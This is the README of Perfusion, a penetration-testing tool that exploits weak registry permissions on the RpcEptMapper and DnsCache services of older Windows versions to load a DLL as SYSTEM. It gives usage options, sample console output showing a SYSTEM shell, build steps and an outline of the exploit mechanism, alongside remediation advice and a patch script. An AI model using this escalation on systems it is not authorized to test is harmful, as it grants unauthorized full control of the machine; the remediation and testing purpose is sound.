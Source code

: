 # Perfusion

On __Windows 7__, __Windows Server 2008R2__, __Windows 8__, and __Windows Server 2012__, the registry key of the `RpcEptMapper` and `DnsCache` (7/2008R2 only) services is configured with weak permissions. Any local user can create a `Performance` subkey and then leverage the ___Windows Performance Counters___ to load an arbitrary DLL in the context of the WMI service as `NT AUTHORITY\SYSTEM` (hence the tool's name).

This tool is intended to help security consultants during penetration tests. This software is provided as is, and I will probably not provide any support. Though, I tested it thoroughly on three different virtual machines so there should not be any significant issue.

For more information: [https://itm4n.github.io/windows-registry-rpceptmapper-eop/](https://itm4n.github.io/windows-registry-rpceptmapper-eop/)

<p align="center">
  <img src="demo.gif">
</p>

## :information_source: 2021-04-21 Update

According to [0patch](https://twitter.com/0patch/status/1384495698373120002), this vulnerability was partially fixed with the April 2021 Windows Update (ESU). This means that machines running an updated version of Windows 8 / Server 2012 should no longer be exploitable. However Windows 7 / Server 2008 R2 remains vulnerable. You just have to leverage the `Dnscache` registry key rather than `RpcEptMapper`. I updated the PoC so that you can manually specify it with the `-k` option.

## Known issues

:warning: __READ THIS BEFORE USING THIS TOOL__ :warning:

During the development phase of this tool, I observed __two different behaviors__:

1. The DLL is loaded __directly by the main process__ of the WMI service as `NT AUTHORITY\SYSTEM`, in this case the exploit works perfectly fine.
2. The DLL is loaded __by a subprocess__ of the WMI service that runs as `NT AUTHORITY\LOCAL SERVICE`. In this case, the service loads the DLL __while impersonating the client__. It turns out a privilege escalation is still possible on Windows 7 (because of another vulnerability) but the implementation cost was not worth the effort.

I am not able to explain this difference because my _trigger_ code was always the same. Anyway, in either case, __let the exploit do its job__ so that it can clean everything up when it's done. If the exploit fails, there is still a chance it will work a few minutes or hours later though.

:heavy_check_mark: Here is what you should see when the exploit works:

```console
C:\Temp>Perfusion.exe -c cmd -i
[*] Created Performance DLL: C:\Users\Lab-User\AppData\Local\Temp\performance_2900_368_1.dll
[*] Created Performance registry key.
[*] Triggered Performance data collection.
[+] Exploit completed. Got a SYSTEM token! :)
[*] Waiting for the Trigger Thread to terminate... OK
[*] Deleted Performance registry key.
[*] Deleted Performance DLL.
Microsoft Windows [Version 6.2.9200]
(c) 2012 Microsoft Corporation. All rights reserved.

C:\Temp>whoami
nt authority\system

C:\Temp>
```

:x: Here is what you should see when the exploit fails:

```console
C:\Temp>Perfusion.exe -c cmd -i
[*] Created Performance DLL: C:\Users\Lab-User\AppData\Local\Temp\performance_636_3000_1.dll
[*] Created Performance registry key.
[*] Triggered Performance data collection.
[-] Exploit completed but no SYSTEM Token. :/
[*] Waiting for the Trigger Thread to terminate... OK
[*] Deleted Performance registry key.
[*] Deleted Performance DLL.

C:\Temp>
```

## Build instructions

This solution is composed of two projects that need to be compiled in a specific order. Everything is pre-configured, so you just have to follow these simple instructions:

1. Open the Solution with Visual Studio 2019
2. Select `Release / x64`
3. `Build > Build Solution`

## Usage

You can check the help message using the `-h` option.

```console
C:\TOOLS>Perfusion.exe -h
 _____         ___         _
|  _  |___ ___|  _|_ _ ___|_|___ ___
|   __| -_|  _|  _| | |_ -| | . |   |  version 0.2
|__|  |___|_| |_| |___|___|_|___|_|_|  by @itm4n

Description:
  Exploit tool for the RpcEptMapper registry key vulnerability.

Options:
  -c <CMD>  Command - Execute the specified command line
  -i        Interactive - Interact with the process (default: non-interactive)
  -d        Desktop - Spawn a new process on your desktop (default: hidden)
  -k <KEY>  Key - Either 'RpcEptMapper' or 'Dnscache' (default: 'RpcEptMapper')
  -h        Help - That's me :)
```

## Remediation / Patch

The following versions of Windows are vulnerable:

| Windows version | Vulnerable registry keys |
| --- | --- |
| Windows 7 | RpcEptMapper, DnsCache |
| Windows Server 2008R2 | RpcEptMapper, DnsCache |
| Windows 8 | RpcEptMapper |
| Windows Server 2012 | RpcEptMapper |

As far as I know, this vulnerability will not be fixed by Microsoft, for some reason. The best solution is still to upgrade to Windows 10 / Server 2019 but if it is not a short-term option, you can still patch this issue yourself by removing the `CreateSubKey` permission for both `NT AUTHORITY\Authenticated Users` and `BUILTIN\Users` on the following registry keys:

- `HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper`
- `HKLM\SYSTEM\CurrentControlSet\Services\DnsCache`

I created a patch for this vulnerability in the form of a PowerShell script: [RegistryPatch.ps1](RegistryPatch.ps1). This script removes the `CreateSubKey` right on the two above-mentioned registry keys for the following identities: `NT AUTHORITY\INTERACTIVE`, `BUILTIN\Users` and/or `BUILTIN\Authenticated Users`.

- __Check if a machine is vulnerable:__ (Windows Server 2012 here)

```console
PS C:\Temp> . .\RegistryPatch.ps1; Invoke-RegistryPatch -Verbose
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper
VERBOSE: Found a vulnerable ACE: "NT AUTHORITY\Authenticated Users" has "QueryValues, CreateSubKey, ReadPermissions" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper
VERBOSE: Found a vulnerable ACE: "BUILTIN\Users" has "QueryValues, CreateSubKey, Notify" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
True
```

- __Apply the patch:__ (Windows Server 2008 R2 here)

```console
PS C:\Temp> . .\RegistryPatch.ps1; Invoke-RegistryPatch -Patch -Verbose 
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper
VERBOSE: Found a vulnerable ACE: "NT AUTHORITY\Authenticated Users" has "QueryValues, CreateSubKey, ReadPermissions" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper
VERBOSE: Found a vulnerable ACE: "BUILTIN\Users" has "QueryValues, CreateSubKey, Notify" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper
VERBOSE: The new ACL was applied
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\DnsCache
VERBOSE: Found a vulnerable ACE: "NT AUTHORITY\INTERACTIVE" has "QueryValues, CreateSubKey, EnumerateSubKeys, ReadPermissions" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\DnsCache
VERBOSE: Found a vulnerable ACE: "BUILTIN\Users" has "CreateSubKey, ReadKey" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\DnsCache
VERBOSE: The new ACL was applied
True
```

## How does this exploit work?

Below are the exploit steps that are implemented in this tool:

1. A Process is created in the background in a suspended state (using the specified command line).
2. The embedded payload DLL is written to the current user's `Temp` folder.
3. A `Performance` key is created under `HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper` and is populated with the appropriate values, including the full path of the DLL that was created at step 2.
4. The WMI class `Win32_Perf` is created and invoked to trigger the collection of _Windows Performance Counters_.
5. The DLL is loaded by the WMI service either as `NT AUTHORITY\SYSTEM` or `NT AUTHORITY\LOCAL SERVICE`.
6. If the DLL is loaded by `NT AUTHORITY\SYSTEM`, its Token is duplicated and is applied to the Process that was initially created by the user at step 1.
7. Everything is cleaned up and the main Thread of the suspended Process is resumed.

